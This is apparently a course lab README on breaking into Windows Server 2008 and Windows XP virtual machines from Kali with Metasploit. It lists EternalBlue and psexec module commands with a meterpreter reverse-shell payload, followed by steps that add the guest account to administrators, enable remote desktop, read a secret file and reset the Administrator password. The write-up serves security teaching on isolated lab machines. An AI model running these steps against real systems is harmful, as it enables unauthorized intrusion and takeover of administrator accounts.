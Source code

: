 ﻿# Penetration tests
## Sumary

Break into a couple of windows systems using Metasploit.


## Descritpion

Using a kali linux virtual machine, the objective break into a windows server 2008 using Metasploit. [Metasploit](https://www.metasploit.com/). [Metasploit](https://openwebinars.net/blog/que-es-metasploit/) is an open source project that helps us investigate security vulnerabilities. Using the [Eternalblue](https://es.wikipedia.org/wiki/EternalBlue) and [Psexec](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/) exploits, penetrability tests will be performed on a virtual machine with Windows Server and another with Windows Xp.

## Steps to reproduce:

1. **Install Vm's**
- Install [VirtualBox](https://www.virtualbox.org/wiki/Downloads)  6.1.14
- Download the [Kali Linux ova](https://images.kali.org/virtual-images/kali-linux-2020.3-vbox-amd64.ova) version 2020.3 for VirtualBox
- Download the [Windows server 2008 ova](https://storage.googleapis.com/isos-iteso-esi-1/isos/WindowsServer2008.ova).
- Donwload the second target [Windows Xp ova](https://storage.googleapis.com/isos-iteso-esi-1/isos/WinXP.ova).

	- Kali
			- Open VirtualBox and select the option "import virtualized service" and select the file "kali-linux-2020.3-vbox-amd64.ova".
			- Import the VM.
			- Go to settings of this VM and select network. Enable two adapters; a Host-only adapter and a NAT adapter.
			- Start the virtual machine. User  `kali` password `kali`.
			- Use the command `sudo su` in a terminal to login into the root account. Password `kali`.

	- Windows Server 
			- Open VirtualBox and select the option "import virtualized service" and select the file "WindowsServer2008.ova".
			- Import the VM.
			- Go to settings of this VM and select network. Enable one adapter; a Host-only adapter.
			- Start the virtual machine.

	- Windows Xp
			- Open VirtualBox and select the option "import virtualized service" and select the file "WinXP.ova".
			- Import the VM.
			- Go to settings of this VM and select network. Enable one adapter; a Host-only adapter.
			- Start the virtual machine.
	
- Disable firewalls and antivirus.
	
2. **Windows server**
- In the kali terminal where you used the command "sudo su" use the command `nmap -O [network/24]` to get hosts, OS guesses, and the ip address of the Windows Server. 
- Use the command `service postgresql start` to initialize the PostgreSQL database.
- Use the command `msfconsole` to start [Metasploit](https://null-byte.wonderhowto.com/how-to/metasploit-basics/).
- Use the command `use exploit/windows/smb/ms17_010_eternalblue` to use the exploit module.
- Use the command `set rhosts [Server IP]` to specify the IP address of the target.
- Use the command `set payload windows/x64/meterpreter/reverse_tcp` to load the trusty reverse_tcp shell as the payload.
- Use the command `set lhost [Kali IP]` to set the listening host to the IP address of our local machine.
- Use the command `set lport 4321` to set the listening port to a suitable number.
- Use the command `run` to run the exploit.
- Use the command `shell` to drop into a system command shell.
- Use the command `net localgroup administrators guest /add` to scall privileges with yhe guest.
- Use the command `exit` to get out of the system command shell and return to the meterpreter console.
- Use the command `run getgui -e` to enable remote desktop connection.
- In a new kali terminal use the command `rdesktop -u guest [Server IP]` to create a remote connection with the guest user.
- Use the command `shell` to drop into a system command shell.
- Use the command `cd..` twice.
- Use the command `cd Users`.
- Use the command `cd Administrator`.
- Use the command `cd Documents`.
- Use the command `Type secret.txt.txt`.
- Use the command `exit` to get out of the system command shell and return to the meterpreter console.
- In a new kali terminal use the command `sudo su` to get root privileges.
- Use the command `nmap -Pn -v --script vuln [Server IP]` to verify for vunerabilities in other services.
- In the meterpreter console use the command `shell` to drop into a system command shell.
- Use the command `net user Administrator [new password]` to change the Administrator password.


3. **Windows Xp**
- In the kali terminal where you used the command "sudo su" use the command `nmap -O [network/24]` to get hosts, OS guesses, and the ip address of the Windows Server. 
- Use the command `msfconsole` to start [Metasploit](https://null-byte.wonderhowto.com/how-to/metasploit-basics/).
- Use the command `use exploit/windows/smb/ms17_010_psexec` to use the exploit module.
- Use the command `set rhosts [Windows IP]` to specify the IP address of the target.
- Use the command `set payload windows/x64/meterpreter/reverse_tcp` to load the trusty reverse_tcp shell as the payload.
- Use the command `set lhost [Kali IP]` to set the listening host to the IP address of our local machine.
- Use the command `set lport 4321` to set the listening port to a suitable number.
- Use the command `run` to run the exploit.
- Use the command `shell` to drop into a system command shell.
- Use the command `net localgroup administrators guest /add` to scall privileges with yhe guest.
- Use the command `exit` to get out of the system command shell and return to the meterpreter console.
- Use the command `run getgui -e` to enable remote desktop connection.
- In a new kali terminal use the command `rdesktop -u guest [WindowsIP]` to create a remote connection with the guest user.
- Use the command `shell` to drop into a system command shell.
- Use the command `cd..` twice.
- Use the command `cd Documents and Settings`.
- Use the command `cd Administrator`.
- Use the command `cd My Documents`.
- Use the command `Type secret.txt`.
- Use the command `exit` to get out of the system command shell and return to the meterpreter console.
- In a new kali terminal use the command `sudo su` to get root privileges.
- Use the command `nmap -Pn -v --script vuln [Server IP]` to verify for vunerabilities in other services.
- In the meterpreter console use the command `shell` to drop into a system command shell.
- Use the command `net user Administrator [new password]` to change the Administrator password.




## References

- [VirtualBox 6.1.14](https://www.virtualbox.org/wiki/Downloads)
-  [Metasploit](https://www.metasploit.com/)
- [Eternalblue](https://es.wikipedia.org/wiki/EternalBlue)
- [Psexec](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)
- [ova Kali](https://images.kali.org/virtual-images/kali-linux-2020.3-vbox-amd64.ova)
- [ova Windos Server](https://storage.googleapis.com/isos-iteso-esi-1/isos/WindowsServer2008.ova)
- [ova Windows Xp](https://storage.googleapis.com/isos-iteso-esi-1/isos/WinXP.ova)



